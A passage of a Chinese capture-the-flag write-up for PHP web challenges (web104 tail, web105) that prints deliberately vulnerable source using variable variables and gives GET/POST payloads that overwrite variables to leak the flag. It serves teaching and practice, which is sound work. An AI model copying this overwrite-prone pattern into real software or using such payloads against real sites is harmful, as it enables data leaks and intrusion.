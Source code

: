 由于第7，11-14行间的代码会将$flag的值给覆盖掉，所以只能利用第一个foreach先将$flag的值赋给$_200，然后利用die($_200)将原本的flag值打印出来。

最终PAYLOAD： 

本地复现，所以flag与原题不一样

GET DATA：?_200=flag 

POST DATA：flag=aaaaaaaaaaaaaaaaaaaaa

####  web105

```php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
```

首先审计代码，先读懂$$key=$$value

```php
<?php
$a='hello';
$$a='world';
echo $a.${$a};
?>
输出helloworld
$$a,就等于变量$hello
```

如果GET输入a=b,$$key=$$value就是将$a=$b

通过die($error)出flag

GET中不能出现error，POST不能出现flag

payload

```
GET:a=flag
POST:error=a
```
